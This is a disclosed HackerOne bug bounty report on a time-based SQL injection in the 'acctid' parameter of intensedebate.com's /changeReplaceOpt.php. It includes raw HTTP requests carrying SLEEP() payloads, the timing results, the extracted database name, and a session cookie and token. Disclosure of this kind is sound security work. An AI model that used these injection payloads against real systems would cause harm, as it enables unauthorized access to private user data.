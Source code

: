 # [intensedebate.com] SQL Injection Time Based on /changeReplaceOpt.php

## Report Details
- **Report ID**: 1042746
- **URL**: https://hackerone.com/reports/1042746
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-24T22:49:14.934Z
- **Disclosed**: 2021-01-01T09:20:01.622Z

## Reporter
- **Username**: fuzzme
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary 

Hello, i have found a SQLI Injection Time Based on `https://www.intensedebate.com/changeReplaceOpt.php`.

The parameter `$_GET['acctid']` is vulnerable.



## Detection

I have inject a MySQL function `sleep()`,  and it works.


```
GET /changeReplaceOpt.php?&opt=1&acctid=419523%20AND%20SLEEP(15) HTTP/1.1
Host: www.intensedebate.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://www.intensedebate.com/install-t
Cookie: country_code=FR; login_pref=IDC; idcomments_userid=26745306; idcomments_token=2008983fa4c2434ecc83a8c2bec380d3%7C1607463572
```

Response time: 15 414 millis.


```
GET /changeReplaceOpt.php?&opt=1&acctid=419523%20AND%20SLEEP(7) HTTP/1.1
Host: www.intensedebate.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://www.intensedebate.com/install-t
Cookie: country_code=FR; login_pref=IDC; idcomments_userid=26745306; idcomments_token=2008983fa4c2434ecc83a8c2bec380d3%7C1607463572
```

7 486 millis.

## POC 

database() : id_commxn2s


Thank you, good bye.

## Impact

Full database access holding private user information.

## Attachments
- sleep7.png
- sleep15.png
- sqli.mp4

